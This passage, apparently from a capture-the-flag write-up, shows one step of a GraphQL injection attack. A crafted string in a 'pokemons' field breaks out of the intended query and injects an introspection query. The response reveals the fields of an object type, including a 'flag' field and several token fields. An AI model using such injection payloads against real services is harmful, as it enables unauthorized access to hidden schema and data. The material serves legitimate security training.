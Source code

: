 But before we do that, we need to know the return object type `Digimon0x000141a0`'s fields.

**Query object type `Digimon0x000141a0`'s fields:**
```json
{
  "pokemons": [
    "anything\"){id},injected_query:__type(name:\"Digimon0x000141a0\"){name,fields{name}}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "name"
        },
        {
          "name": "level"
        },
        {
          "name": "type"
        },
        {
          "name": "attribute"
        },
        {
          "name": "description"
        },
        {
          "name": "flag"
        },
        {
          "name": "tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b"
        },
        {
          "name": "tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5"
        },
        {
          "name": "tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e"
        }
      ],
      "name": "Digimon0x000141a0"
    }
  }
}
```
